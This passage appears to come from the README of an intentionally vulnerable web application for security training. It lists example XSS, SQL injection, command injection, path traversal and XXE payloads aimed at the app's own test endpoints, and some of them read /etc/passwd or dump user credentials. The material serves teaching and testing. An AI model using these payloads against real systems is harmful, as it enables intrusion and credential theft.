 ## Example Payloads

### XSS
```
GET /test/xss?input=<script>alert('XSS')</script>
```

### SQL Injection
```
GET /test/sqli?id=1 UNION SELECT username,password FROM users--
```

### Command Injection
```
GET /test/cmd?cmd=whoami
GET /user/exec?cmd=dir
```

### Path Traversal
```
GET /file/view?file=../../../etc/passwd
GET /test/path-traversal?path=../../../windows/system32/drivers/etc/hosts
```

### XXE Injection
```xml
POST /file/xml
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

## License
This project is intended for educational and testing purposes only. Use at your own risk.

## Disclaimer
This application is intentionally vulnerable and should only be used in controlled environments for security testing purposes. The authors are not responsible for any damage or misuse of this application.
